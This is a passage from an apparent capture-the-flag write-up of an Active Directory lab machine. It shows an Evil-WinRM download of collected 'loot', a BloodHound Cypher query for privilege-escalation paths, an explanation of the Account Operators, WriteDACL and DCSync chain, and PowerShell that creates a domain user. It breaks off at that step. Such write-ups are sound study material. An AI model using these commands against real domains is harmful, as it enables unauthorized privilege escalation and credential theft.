 Data exfiltrated for local analysis:

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco> download 20250614160957_loot.zip
                                        
Info: Downloading C:\Users\svc-alfresco\20250614160957_loot.zip to 20250614160957_loot.zip                  
```

### Attack Path Discovery

BloodHound custom Cypher query to identify privilege escalation paths from owned principals to domain Tier 0:

```cypher
MATCH p = allShortestPaths((u:User)-[:AbuseTGTDelegation|AllowedToDelegate|HasSIDHistory|ADCSESC1|CanPSRemote|HasSession|ADCSESC10a|CanRDP|MemberOf|ADCSESC10b|CoerceAndRelayNTLMToADCS|Owns|ADCSESC13|CoerceAndRelayNTLMToLDAP|OwnsLimitedRights|ADCSESC3|CoerceAndRelayNTLMToLDAPS|ReadGMSAPassword|ADCSESC4|CoerceAndRelayNTLMToSMB|ReadLAPSPassword|ADCSESC6a|CoerceToTGT|SameForestTrust|ADCSESC6b|Contains|SpoofSIDHistory|ADCSESC9a|DCFor|SQLAdmin|ADCSESC9b|DCSync|SyncedToEntraUser|AddAllowedToAct|DumpSMSAPassword|SyncLAPSPassword|AddKeyCredentialLink|ExecuteDCOM|WriteAccountRestrictions|AddMember|ForceChangePassword|WriteDacl|AddSelf|GPLink|WriteGPLink|AdminTo|GenericAll|WriteOwner|AllExtendedRights|GenericWrite|WriteOwnerLimitedRights|AllowedToAct|GoldenCert|WriteSPN*1..]->(b:Base))
WHERE "owned" IN split(u.system_tags, " ")
  AND "admin_tier_0" IN split(b.system_tags, " ")
RETURN p
LIMIT 1000
``` 

BloodHound revealed that `svc-alfresco` was a member of the `Account Operators` group. This group can create users and add them to most groups, including `Exchange Windows Permissions`. The `Exchange Windows Permissions` group has `WriteDACL` permissions on the domain object - a standard Exchange requirement that creates an attack path to DCSync rights.

---

## Phase 4: Advanced Exploitation - DCSync Attack

### Understanding the Attack Chain

The privilege escalation chain leverages:
1. `svc-alfresco` membership in `Account Operators` group
2. `Account Operators` ability to create users and modify group memberships  
3. `Exchange Windows Permissions` group's `WriteDACL` permission on domain object
4. `WriteDACL` permission to grant DCSync rights to any principal

### Step 1: User Creation

`svc-alfresco`'s `Account Operators` membership allows user creation:

```powershell
$SecPass = ConvertTo-SecureString 'password' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB.LOCAL\\wither', $SecPass)
New-ADUser -Name "wither" -SamAccountName "wither" -AccountPassword $SecPass -Enabled $true
```
